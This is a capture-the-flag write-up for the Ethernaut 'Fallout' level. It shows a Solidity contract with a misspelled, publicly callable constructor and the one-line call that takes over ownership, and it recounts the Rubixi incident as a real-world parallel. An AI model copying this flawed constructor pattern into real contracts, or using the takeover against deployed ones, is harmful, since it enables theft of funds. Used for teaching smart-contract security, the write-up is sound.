 ## Level 02 - Fallout - Write-Up
<!--Authors: OofedUp-->

Difficulty: 2/10

![image](https://i.imgur.com/qXzF4vf.png)

## Source
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

At first, the contract seems secure, but if you take a closer look you will find something really interesting here:

```javascript
/* constructor */
 function Fal1out() public payable {
   owner = msg.sender;
   allocations[owner] = msg.value;
 }
```

The *constructor* function was defined with a typo (**1** instead of **l**), so the contract's owner was not set on deployment, but more importantly, the function is public and callable. We can use it to become the owner:

```javascript
contract.Fal1out()
```

We can then submit it.

![image](https://i.imgur.com/G5KJZ3n.png)

## Note

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?
Well... Not quite.
The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:
```javascript
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.

